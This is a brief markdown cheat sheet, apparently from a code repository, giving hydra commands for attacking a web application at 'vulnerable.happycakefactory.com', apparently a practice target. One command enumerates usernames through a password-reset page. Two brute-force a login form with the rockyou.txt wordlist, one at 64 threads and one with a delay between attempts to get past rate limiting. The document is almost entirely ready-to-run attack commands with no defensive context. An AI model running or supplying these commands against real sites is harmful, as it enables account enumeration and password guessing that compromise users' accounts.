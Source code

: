 # Enum user from pass word reset

code to enu username from reset page

```bash

hydra -L cirt-default-usernames.txt -e n -m /pw_reset vulnerable.happycakefactory.com https-post-form  "/pw_reset:username=^USER^:does not exist" -V -I

```
code to enu password from login page

```bash

hydra -l username -P rockyou.txt -t 64 -m /login vulnerable.happycakefactory.com https-post-form "/login:username=^USER^&password=^PASS^:login" -V -I

```

if we want to crack with the 6s time between attemps

```bash
hydra -l username -P rockyou.txt -w 7 -m /login vulnerable.happycakefactory.com https-post-form "/login:username=^USER^&password=^PASS^:login" -v -I

```

